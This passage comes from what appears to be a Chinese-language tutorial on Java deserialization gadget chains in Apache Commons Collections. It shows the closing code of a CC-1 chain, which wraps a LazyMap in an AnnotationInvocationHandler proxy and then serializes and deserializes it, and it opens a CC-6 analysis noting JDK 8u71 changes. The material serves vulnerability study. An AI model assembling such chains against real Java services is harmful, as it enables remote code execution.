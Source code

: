 ```bash
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, Lazymap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, h);

        Object o = annotationInvocationhdlConstructor.newInstance(Override.class, mapProxy);

        serialize(o);
        unserialize("ser.bin");
    }
```

## CC-6 分析

### 分析版本

Commons Collections3.2.1

jdk8u71

### 分析过程

#### 版本修改

在 JDK-8u71 版本之后，cc-1 的关键漏洞点 AnnotationInvocationHandler.java 的 readObject 方法做出了一下修改

[![](assets/1700127979-af79b012b5bd8afd931010c4f1440744.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155056-dfe814b4-8454-1.png)
